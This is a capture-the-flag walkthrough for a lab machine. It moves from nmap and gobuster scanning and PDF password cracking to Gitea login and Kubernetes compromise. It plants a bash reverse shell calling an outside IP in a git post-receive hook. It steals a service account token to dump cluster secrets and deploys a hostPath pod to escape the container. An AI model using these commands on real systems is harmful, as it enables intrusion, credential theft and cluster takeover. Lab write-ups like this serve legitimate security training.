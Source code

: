 ## Task 1 Deploy the VM


Please allow 5 minutes for the machine to fully boot up.

> Answer: No answer needed


## Task 2 Compromise the machine



**Answer the questions below**

### Flag 1

`export ip=10.10.219.14`

`ping $ip`

- Get machine IP and check the connectivity:

![image](https://user-images.githubusercontent.com/86648102/134903424-aebdd489-9e4f-4471-b155-6eeade692bc6.png)
- Scanning and Enumeration:
`sudo nmap -sC -sV -v -oN PalsForLifenmapscan.txt $ip -p- -Pn`

Open ports:
- 22 ssh
- 6443 ssl/sun-sr-https? Kubernetes
- 10250 Golang net/http server
- 30180 nginx
- 31111 Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go
- 31112 OpenSSH

---
- For now, we leave the SSH ports alone. The most interesting, in my oppinion is the Gitea 31111 port.

![image](https://user-images.githubusercontent.com/86648102/134904400-5e3ce142-048b-43c0-a60f-170e9f45d32a.png)

- Let's explore the website. Under **Explore** > **Users** we manage to find the following:
![image](https://user-images.githubusercontent.com/86648102/134904776-cd8e3428-448e-430e-8c58-e69f489facbb.png)

We have a user: leeroy.

---

- I tried scanning the other ports with Gobuster, to see if other pages are around there. The 30180 returned something interesting:

`sudo gobuster dir -u http://$ip:30180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee palsforlifegobuster.txt`

![image](https://user-images.githubusercontent.com/86648102/134906394-ffd3def6-6fee-48b8-a87f-9e332c3d506a.png)

http://machineip:30180/team 

![image](https://user-images.githubusercontent.com/86648102/134906568-0b0dbb54-8df7-4aaf-8e81-770fda5571bf.png)

Someone seems to like World Of Warcraft a lot :)

Nothing special on the page, except the video. However, when inspecting the page:

![image](https://user-images.githubusercontent.com/86648102/134906809-ee1d0239-2d66-439e-bae9-10185e572e1c.png)


Someone forgot an "uninteresting" file around. Let's put the code in a text file and see what we can do.

![image](https://user-images.githubusercontent.com/86648102/134907151-805d81e9-74a1-4bde-98b0-c2631dfeaf8e.png)

What if we decode it with base64?

`cat contentfromsite | base64 --decode > uninteresting_file.pdf`

![image](https://user-images.githubusercontent.com/86648102/134907464-9d8b6ac1-0d8f-45ea-8f61-563b952a27c1.png)


Apparently it's password protected. We will use **John The Ripper** for this one.

`/usr/share/john/pdf2john.pl uninteresting_file.pdf > pdfhash.txt`

The format to be used will be shown with this command:

`john --list=formats | grep -i pdf`

And to crack the password of the file:

`john --format=PDF --wordlist=/usr/share/wordlists/rockyou.txt pdfhash.txt`

`john --show pdfhash.txt`

**It worked!**

![image](https://user-images.githubusercontent.com/86648102/134908157-99295585-44ac-477e-9df5-f645867be2bb.png)

Apply the password to the PDF file. Apparently, within there's a text that might look like a password...back to the Gitea, maybe **leeroy** with this password will work.

![image](https://user-images.githubusercontent.com/86648102/134908865-171c7bc2-5dc8-4f62-adb3-2076da70b2e0.png)

We are in!

- Found a "secret" field under the Webhooks ( Repository > Settings > Webhooks )
Right click to inspect the field and..you get the first flag.

![image](https://user-images.githubusercontent.com/86648102/134909821-2a88084b-8fac-45a5-a87b-e0c457dbe74c.png)

---
### Flag 2
---

Githooks abuse.

![image](https://user-images.githubusercontent.com/86648102/134910069-93f8b126-1a15-4f17-9a03-aaf134cb341f.png)

Edit the "post-receive" hook and add the following content:

`#!/bin/bash
bash -i >& /dev/tcp/10.8.174.98/4444 0>&1`

![image](https://user-images.githubusercontent.com/86648102/134910323-c2859f53-3897-449b-ab14-f31e75317abb.png)


Also, open a netcat listener on port 4567.

`sudo nc -nvlp 4567`

![image](https://user-images.githubusercontent.com/86648102/134913265-87d883c4-11b5-4db8-acfe-f309bba16147.png)

We need to do some sort of action, for the hook to activate the reverse shell. Creating a new file, will do just fine:

![image](https://user-images.githubusercontent.com/86648102/134913438-3e4cd6b8-a7ac-4ae8-a3de-1f2ddd0b46c2.png)

We got the shell.

![image](https://user-images.githubusercontent.com/86648102/134913596-3b2ebc47-d1c3-44c8-8b37-f0395568bc6a.png)

By searching for flag files, we get the 2nd flag:

`find / -type f -iname flag2* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134913989-f240b007-1c98-419f-823e-e2ecfca0c505.png)


---
### Flag 3
---

As the hint says "kubectl", this one is about Kubernetes (Port 6443)

- Service Account Token

> By default, the containers in the Kubernetes cluster will hold service account token within their file system. If an attacker could find that token, he/she can use it to move laterally or depending the privilege of the service account, one can escalate its privilege to further compromise the cluster environment

`cat /var/run/secrets/kubernetes.io/serviceaccount/token`
> Output the token to a text file for later usage.

- Usage of it:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 auth can-i --list`

Apparently, we can do anything with it.
![image](https://user-images.githubusercontent.com/86648102/134915608-1fc9f376-8b15-4615-a423-4d2c2007f73c.png)

As, we have the permissions, let's check the secret resources:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n kube-system get secret flag3 -o json | jq -r '.data | map_values(@base64d)'`


![image](https://user-images.githubusercontent.com/86648102/134916020-e9f9230e-c70d-4c47-8fa8-65013b5d6ec0.png)


---
### Flag 4
---


We will create a new pod and abuse this.
Create a **host.yaml**

apiVersion: v1
kind: Pod
metadata:
  name: host
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: host
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /host
      name: host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory

And then run the following command:
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default apply -f host.yaml`
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default exec -it host bash`











